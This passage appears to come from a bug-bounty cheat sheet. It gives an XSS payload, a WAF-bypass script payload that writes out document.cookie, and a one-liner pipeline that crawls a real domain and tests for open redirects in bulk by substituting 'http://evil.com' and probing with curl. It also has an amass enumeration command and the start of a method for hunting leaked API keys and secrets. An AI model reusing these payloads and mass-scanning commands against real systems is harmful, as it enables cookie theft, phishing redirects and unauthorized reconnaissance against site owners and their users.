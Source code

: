 **any name tag xss payload:**

```
<x onfocus=alert(1) autofocus tabindex=1>
```

**Bypass Waf Pyaload:**

```
<%2FScriPt><sCripT+class%3DXalgord>document.write(document.cookie);<%2FsCriPt>
```

#### Open Redirect Mass Hunt

* tool = ragno, qsreplace

```
python3 ragno.py -d intensedebate.com -s -q -o ragno_urls.txt
```

```
cat ragno_urls.txt | grep -a -i \=http | wc -w
```

```
cat ragno_urls.txt | grep -a -i \=http > potential_openredirect_vun.txt
```

```
cat potential_openredirect_vun.txt | qsreplace "http://evil.com" | wc -w
```

```
cat potential_openredirect_vun.txt | qsreplace "http://evil.com" > unique_potential_openredirect.txt
```

```
cat unique_potential_openredirect.txt | while read target_urls do; do curl -s -L $target_urls -I | grep "evil.com" && echo "[Vulnerable] $target_urls \n"; done
```

* Example: One Liner for Hunting Mass Open Redirect

```
python3 ragno.py -d test.vulnweb.com -s -q -o ragno_urls.txt | cat ragno_urls.txt | grep -a -i \=http | qsreplace "http://evil.com" | while read target_url do; do curl -s -L $target_url -I | grep "evil.com" && echo "[+] [Vulnerable] $target_url \n"; done

```

#### Amass Command

```
amass enum -brute -o output.txt -d example.com -v
```

#### Detect Low Hanging Bugs and Sensitive Information like API Keys, Secrets etc. including JS Files and HTML Pages

First run Amass Scan and save its output and then run Sublist3r with bruteforce mode and also save its output in different file. Now open a Website such as https://www.textfixer.com/tools/remove-duplicate-lines.php to remove duplicate subdomains.
